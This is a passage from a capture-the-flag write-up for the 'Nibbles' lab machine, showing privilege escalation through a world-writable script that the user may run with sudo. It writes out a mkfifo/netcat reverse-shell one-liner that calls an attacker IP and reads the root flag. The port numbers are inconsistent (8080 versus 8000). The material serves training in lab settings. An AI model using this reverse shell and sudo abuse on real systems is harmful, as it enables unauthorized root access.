 ```shell
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
Let's inspect the bash script monitor.sh:
```shell
cd ~
unzip personal.zip
cat /home/nibbler/personal/stuff/monitor.sh
```
It is a quite long script, but since everybody can write on it, we can just change the contents to escalate our privileges:
```shell
# Pay attention to -rwxrwxrwx permissions
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -al
ls -al
total 12
drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```
We will abuse this to write a reverse shell into the monitor.sh that connects to our nc listener when running monitor.sh as sudo.

### Writing reverse shell into monitor.sh and getting shell as root

Let's start a nc listener on Kali first:
```shell
nc -lvnp 8080
```
And now overwrite the contents of the monitor.sh script with the following reverse shell:
```shell
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.206 8000 > /tmp/f" >> monitor.sh
```
Now we just need to run the script monitor.sh with sudo and we will trigger the reverse shell, giving us a response in our nc listener and shell as root:
```shell
sudo /home/nibbler/personal/stuff/monitor.sh
```
```shell
listening on [any] 8000 ...
connect to [10.10.14.206] from (UNKNOWN) [10.129.146.200] 52416
# whoami
root
```
Upgrade the shell once we get a response in our nc listener:
```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
### Root Flag
We can find the root.txt flag at the following directory:
```shell
cat /root/root.txt
```